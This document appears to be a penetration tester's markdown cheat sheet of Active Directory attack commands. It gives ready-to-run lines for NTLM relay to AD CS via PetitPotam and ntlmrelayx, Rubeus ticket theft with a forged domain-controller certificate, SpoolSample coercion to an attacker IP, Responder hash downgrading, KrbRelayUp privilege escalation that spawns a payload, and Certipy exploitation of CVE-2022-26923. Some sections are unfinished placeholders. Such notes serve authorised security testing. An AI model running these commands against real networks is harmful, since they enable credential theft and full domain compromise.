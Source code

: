```
```
## View the .Net versions on the target host
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name Version,Release -ErrorAction 0 | Where { $_.PSChildName -match '^(?!S)\p{L}'} | Select PSChildName, Version, Release
```
## Unconstrained delegation : SpoolSample bug + Rubeus
todo...
## ADCS + PetitPotam NTLM Relay (ESC8)
Source : https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate

ntlmrelayx:
```
examples/ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```
PetitPotam:
```
python3 PetitPotam.py -d <Domain> -u <Username> -p <'Password'> ntlmrealy_ip DC_IP <-pipe efsr>
```
Rubeus import bas64 encoded cert:
```
Rubeus.exe asktgt /outfile:kirbi /user:DC$ /ptt /certificate:base64
```
## Print Spooler bug
```
SpoolSample_v4.5_x64.exe targetip attackerip
```
## Capture and downgrade to NTLMv1 hashes from PetitPotam or SpoolerBug to Responder
```
sudo responder -I eth0 --lm -b --disable-ess
```
## KrbRelayUp
``` 
KrbRelayUp.exe relay -d domain.local -CreateNewComputerAccount -ComputerName krbrelayup$ -ComputerPassword Pass123!
KrbRelayUp.exe spawn -d domain.local -cn krbrelayup$ -cp Pass123! -sc "cmd /c C:\Users\user\payload.exe"
```
## Computer Account to Domain Controller Privesc (dnsHostName abuse, CVE-2022-26923)
```
proxychains -q certipy account create 'domain.local/user:Password@dc01.domain.local' -user 'cve2022-26923' -dns 'dc01.domain.local'
proxychains -q certipy req 'goat.local/cve2022-26923$:h5<SNIP>BE@ADCS_IP' -ca domain-ADCS-CA -template Machine -debug
proxychains -q certipy auth -pfx dc01.pfx 'DC_IP@domain.local'
```
## Searching AD CS templates with Certipy via SOCKS proxy 
```
proxychains -q certipy find -u 'user@domain.local' -debug -ns ip -dc-ip ip -dns-tcp -scheme ldap
```
## Exploiting RBCD Using a Normal User Account
```
```